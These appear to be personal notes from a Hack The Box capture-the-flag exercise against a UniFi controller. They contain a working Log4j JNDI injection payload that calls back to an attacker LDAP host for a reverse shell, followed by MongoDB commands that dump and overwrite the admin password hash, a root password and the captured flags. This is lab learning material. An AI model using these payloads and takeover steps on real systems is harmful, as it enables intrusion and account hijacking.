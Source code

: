 ip = 10.129.71.133

found port 8443 on my own

## Ports

22 - ssh
6789 - ibm-db2-admin?
8080 - http-proxy - status 404 - should ffuf?
8443 - web dashboard trying to crack. cannot ffuf as will redirect to login
8843 - ssl? - status 400 - may be used for api?
8880 - tcp? - status 404 - should ffuf

## 8080

Proxy for 8443. Found the following paths:-

/print (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/print]
/pages (Status: 302) [Size: 0] [--> /pages/]
/upload (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/upload]
/file (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/file]
/status (Status: 200) [Size: 76]
/v2 (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/v2]
/api (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/api]
/logout (Status: 302) [Size: 0] [--> /manage]
/setup (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/setup]
/manage (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/manage]
/op (Status: 302) [Size: 0] [--> https://10.129.68.135:8443/op]
/verify (Status: 302) [Size: 0] [--> /manage/account/verify?r=1]

## CVE-2021-44228: Log4j

link - https://censys.com/blog/cve-2021-44228-log4j

### Flow

we can modify the form data to inject a payload in the "remember password" field. This payload will be injected in the logger like so

```java
log.info("username: ${username} ; remember: ${remember});

# resolves to:-
log.info("username: ${payload.username} ; remember: ${<payload>});
```

We can use JNDI to dynamicall fetch a file using LDAP (we create a malicious LDAP server) to get a reverse shell up in the server.

Use burpsuite to capture the POST request from the unifi network server and forward request to repeater.

create tcp dump logger:

```bash
└──╼ [★]$ sudo tcpdump -i tun0 port 1389
```

#### Original Payload

```http
POST /api/login HTTP/1.1
Host: 10.129.53.120:8443
Content-Length: 81
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json; charset=utf-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://10.129.53.120:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.53.120:8443/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

{"username":"testuser","password":"testpassword","remember": true,"strict":true}
```

#### Modified Payload

```http
POST /api/login HTTP/1.1
Host: 10.129.53.120:8443
Content-Length: 111
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/json; charset=utf-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://10.129.53.120:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.53.120:8443/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

{"username":"testuser","password":"testpassword","remember":"${jndi:ldap://10.10.14.147:1389}",
"strict":true}
```

#### Result

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes


18:33:36.891611 IP 10.129.53.120.55414 > htb-ie8f9usvwk.1389: Flags [S], seq 1293191773, win 64240, options [mss 1362,sackOK,TS val 3435078781 ecr 0,nop,wscale 7], length 0
18:33:36.891622 IP htb-ie8f9usvwk.1389 > 10.129.53.120.55414: Flags [R.], seq 0, ack 1293191774, win 0, length 0
```

User the following notes to launch LDAP attack: notes/infiltration/general/ldap-for-jndi-attack.md

once we get a shell we try to find the mongodb by either finding the socket or use tcp to call the instance.

keep in mind the port is 27117 and db is ace

```bash
mongo --port 27117 ace

# db.listCollections()
# db.admin.find().forEach(printjson)
```

We find the hash for admin account

```bash
# "x_shadow": "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",

# the $6 indicates the hash algo, Ry6Vdbse is the salt, the rest is the hashed password.

openssl passwd -6 -salt $(openssl rand -base64 16) password123
# output: $6$3PQnfHW5kwahebAm$KNiatOJON1Imt4YUmYsaSArn3R.r0QIFcrpySrqbrRaAfBulrPsqQjc20.WNjgbhIo1In17yytuZDIVxpgAGc/

# another option?
mkpasswd -m sha-512 Password1234

```

update the admin password:

```js
db.admin.updateOne(
  { _id: ObjectId("61ce278f46e0fb0012d47ee4") },
  {
    $set: {
      x_shadow:
        "$6$3PQnfHW5kwahebAm$KNiatOJON1Imt4YUmYsaSArn3R.r0QIFcrpySrqbrRaAfBulrPsqQjc20.WNjgbhIo1In17yytuZDIVxpgAGc/",
    },
  },
);
```

log into unified box, password to root account is: NotACrackablePassword4U2022

user: 6ced1a6a89e666c0620cdb10262ba127
root: e50bc93c75b634e4b272d2f771c33681
